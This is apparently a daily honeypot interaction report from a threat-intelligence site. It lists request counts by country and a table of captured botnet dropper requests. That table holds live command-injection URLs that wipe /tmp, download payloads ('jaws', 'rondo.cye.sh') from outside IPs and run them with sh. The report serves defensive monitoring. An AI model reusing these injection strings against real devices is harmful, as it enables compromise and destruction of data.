 ```yaml
---
title: "Report: 2025-08-09 "
date: 2025-08-09
desciption: "Report: 2025-08-09" 
tags: [repport, daily]
---
```



# Daily Report: 2025-08-09 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 5 stage 1 IP address(es), linked to 2 dropper URL(s).  

There are 4 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 442 requests were recorded during the day, originating from 5 different countries, with a peak of 106 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                                                                                        |
|:---------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 156.212.9.9    | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.150.159/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                   |
| 197.45.164.171 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.150.159/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                   |
| 175.143.172.14 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.150.159/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                   |
| 8.219.182.182  | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.150.159/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                   |
| 45.156.87.165  | GET /cgi-bin/nobody/Search.cgi?action=cgi_query&ip=google.com&port=80&queryb64str=Lw==&username=admin%20;XmlAp%20r%20Account.User1.Password%3E%24%28wget%20-qO-%20http%3A%2F%2F74.194.191.52%2Frondo.cye.sh%7Csh%3B%29&password=admin HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                |
|----:|----------------------:|:---------------------------------------|
|  86 |                     2 | GET robots.txt HTTP/1.0                |
| 166 |                     1 | GET /odinhttpcall1754746322 HTTP/1.1   |
| 170 |                     1 | GET /Odin/http/call1754746322 HTTP/1.1 |
| 171 |                     1 | GET /OdinHttpCall1754746322 HTTP/1.1   |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   106 | US                 |
|  1 |                    62 | GB                 |
|  2 |                    48 | SG                 |
|  3 |                    48 | HK                 |
|  4 |                    41 | DE                 |
|  5 |                    17 | CH                 |
|  6 |                    16 | BG                 |
|  7 |                    15 | IN                 |
|  8 |                    14 | SC                 |
|  9 |                    12 | DK                 |
| 10 |                    10 | NL                 |
| 11 |                     8 | PL                 |
| 12 |                     7 | UA                 |
| 13 |                     4 | EG                 |
| 14 |                     4 | LT                 |
| 15 |                     4 | ZA                 |
| 16 |                     4 | IR                 |
| 17 |                     4 | FR                 |
| 18 |                     3 | CA                 |
| 19 |                     2 | TR                 |
| 20 |                     2 | MC                 |
| 21 |                     2 | BE                 |
| 22 |                     1 | HU                 |
| 23 |                     1 | KR                 |
| 24 |                     1 | RU                 |
| 25 |                     1 | BR                 |
| 26 |                     1 | RS                 |
| 27 |                     1 | MY                 |
| 28 |                     1 | JP                 |
| 29 |                     1 | CN                 |
| 30 |                     1 | MX                 |
